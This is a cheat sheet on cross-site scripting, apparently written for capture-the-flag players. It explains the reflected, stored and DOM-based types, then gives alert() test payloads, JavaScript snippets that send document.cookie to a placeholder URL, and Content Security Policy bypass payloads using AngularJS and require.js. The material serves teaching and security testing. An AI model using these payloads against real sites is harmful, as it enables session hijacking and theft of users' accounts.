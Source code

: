 # 💬 XSS

Cross Site Scripting (XSS) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

To demonstrate the presence of a XSS vulnerability it is enough to execute `<script>alert('Hi!')</script>`

Goals of a XSS:

- Steal the user cookie
- Log user activities on the website
- Change client code execution
- Make action from the admin account

## Types of XSS

There are three main types of XSS:

- reflected:
- stored:
- DOM-based

### Reflected

In reflected XSS the data inserted by the user is included in the webpage source without any validation.

Common point of attacks are query or path params.

```
http://website.com/profile?greetings=<script>alert('Hi!')</script>
```

### Stored

In stored XSS the payload is stored on the server and it is executed when other users visit the page.

It was very common in the past inside public forum or blogs. The payload can be stored inside a comment or a post.

Other examples are user profile information or contact forms.

Do you know someone called `<script>alert('Hi!')</script>`?

When there is no way to test your payload, this type of vulnerability becomes a blind XSS. This could happen for example with the restricted account.

### DOM-based

In DOM-based XSS the execution happens in the browser without any refreshes or updates.

Common examples are input form or special page actions.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = '<url>?cookie=' + document.cookie
```

```js
var request = new XMLHttpRequest()
request.open('GET', '<url>?cookie=' + document.cookie)
request.send(null)
```

```js
fetch('<url>?cookie=' + document.cookie)
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```
